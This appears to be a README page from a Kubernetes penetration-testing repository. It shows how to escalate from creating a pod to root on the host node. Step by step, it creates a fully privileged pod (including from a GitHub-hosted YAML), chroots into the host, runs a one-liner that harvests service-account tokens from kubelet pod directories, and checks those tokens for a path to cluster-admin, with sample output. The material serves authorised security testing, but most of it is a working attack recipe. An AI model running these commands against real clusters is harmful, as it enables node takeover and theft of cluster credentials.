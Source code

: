 # Easy mode pod - You can create a pod with to all the things
If there are no pod admission controllers applied,or a really lax policy, you can create a pod that has complete access to the host node. You essentially have a root shell on the host, which provides a path to cluster-admin. 

[pod-everything-allowed.yaml](pod-everything-allowed.yaml)

### Create a pod
```bash
# Option 1: Create pod from local yaml 
kubectl apply -f pod-everything-allowed.yaml [-n namespace] 
# Option 2: Create pod from github hosted yaml
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/everything-allowed/pod-everything-allowed.yaml [-n namespace] 
```

### Exec into pod 
```bash
kubectl -n [namespace] exec -it pod-everything-allowed -- chroot /host

```

### Post exploitation
```bash
# You now have full root access to the node
# Example privesc path: Hunt for tokens in /host/var/lib/kubelet/pods/
tokens=`find /var/lib/kubelet/pods/ -name token -type l`; for token in $tokens; do parent_dir="$(dirname "$token")"; namespace=`cat $parent_dir/namespace`; echo $namespace "|" $token ; done | sort

default | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-t25ss/token
default | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-t25ss/token
development | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-qqgjc/token
development | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-qqgjc/token
kube-system | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/kube-proxy-token-x6j9x/token
kube-system | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/calico-node-token-d426t/token

#Copy token to somewhere you have kubectl set and see what permissions it has assigned to it
DTOKEN=`cat /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-qqgjc/token`
kubectl auth can-i --list --token=$DTOKEN -n development # Shows namespace specific permissions
kubectl auth can-i --list --token=$DTOKEN #Shows cluster wide permissions

# Does the token allow you to view secrets in that namespace? How about other namespaces?
# Does it allow you to create clusterrolebindings? Can you bind your user to cluster-admin?
```
   
Reference(s): 
* https://raesene.github.io/blog/2019/04/01/The-most-pointless-kubernetes-command-ever/